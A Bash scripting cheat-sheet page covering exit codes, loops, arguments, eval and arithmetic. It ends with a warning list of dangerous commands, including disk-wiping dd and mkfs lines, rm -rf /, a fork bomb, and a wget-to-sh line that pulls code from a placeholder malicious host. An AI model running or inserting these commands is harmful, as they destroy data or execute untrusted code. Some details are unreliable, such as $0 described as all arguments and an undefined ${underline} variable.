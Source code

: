 ```yaml
---
title: "Bash Programming"
date: 2022-10-21T23:33:07-03:00
Description: ""
Summary: "Exit codes and Basic structures to program scripts."
Tags: [linux, cli, scripting]
Categories: [bash]
DisableComments: false
---
```


# Style Guide

https://google.github.io/styleguide/shellguide.html

# Exit Codes

- 0: Success
- 1 to 255: Error

## Print last exit code of a command

```bash
echo $?
```

## Table Reference

| Code | Description                    |
| ---: | :----------------------------- |
|    1 | Catchall for general errors    |
|    2 | Misuse of shell built-ins      |
|  126 | Command invoked cannot execute |
|  127 | Command not found              |
|  128 | Invalid argument to exit       |
|  130 | Script terminated by Ctrl+C    |

# Displaying Beautifully

Example:

```bash
#!/bin/bash

bold=$(tput bold);
under=$(tput smul);
italic=$(tput sitm);
info=$(tput setaf 2);
error=$(tput setaf 160);
warn=$(tput setaf 214);
reset=$(tput sgr0);

echo "${info}INFO${reset}: This is an ${bold}info${reset} message";
echo "${error}ERROR${reset}: This is an ${underline}error${reset} message";
echo "${warn}WARN${reset}: This is an ${italic}warn${reset} message";
```

# Scripting

## Header: She Bang!

```bash
#!/bin/bash
```

```sh
#!/bin/sh
```

## Arguments

- $1: first argument
- $2: second argument...
- $0: all arguments
- $\_: last argument
- $#: holds the count of positional arguments passed to the function
- $@: expands the list to separate strings. For example: "$1", "$2", ...
- $\*: expands the list into a single string, separating parameters with a space. For example "$1 $2"...

## Code Structures

### Function

```bash
function myFunction() {
  # code
}
```

Execute:

```bash
myFunction [...args]
```

### If/Else

```bash
if COMMAND; then
  # code
else
  # code
fi
```

### For Loops

```bash
for element in LIST; do
  # code
done
```

```bash
for counter in {1..10}; do
  # code
done
```

### While Loops

```bash
while COMMAND; do
  # code
done
```

Inline pipe:

```bash
some_command | while read output; do another_command; done
```

### Examples

For loop with command:

```bash
for i in $(ls ~ | grep Do); do
  echo "${i}";
done
```

Inline while:

```bash
ls ~ | grep Do | while read output; do echo "${output}"; done
```

For loop within strings:

```bash
#!/bin/bash

P1="a b c";
P2="d e f";
P=${P1}" "${P2};
for letter in ${P}; do
  echo ${letter};
done
```

For loop with lists:

```bash
#!/bin/bash

LIST=(
  "Payment"
  "Merchant"
);
for endpoint in ${LIST[@]}; do
  echo ${endpoint};
done
```

# Hints

## Define a command in a variable and invoke it with `eval`

```bash
FILE="data.csv";
AWK="awk -f script.awk";
eval "${AWK} ${FILE}";
```

## Arithmetic Operations

```bash
#!/bin/bash
y=5;
x=10;

echo $((x+y));
echo $((x-y));
echo $((x*y));
echo $((x/y));
echo $((x%y)); # modulus
```

Bash treat numbers as integers, this might be a problem in some cases. In this case, use the basic calculator `bc`.

```bash
echo "scale=2; ${x}/${y}" | bc
```

Variations:

```bash
expr ${x} + ${y};
```

```bash
let "answer = ${x} + ${y}";
echo ${answer};
```

# Dangerous Commands

- `rm -rf /`
- `command > /dev/sda`
- `:(){:|:&};:`
- `> file (cat /dev/null > file)`
- `^foo^bar`
- `mv directory /dev/null`
- `wget http://malicious-source-url -O- | sh`
- `crontab -r`
- `history | sh`
- `dd if=/dev/random of=dev/sda`
- `mkfs.ext3 /dev/sda`
- `gunzip untrusted.gz`
- Remove python: `sudo apt purge python2.x-minimal`
- `chmod -R 777 /`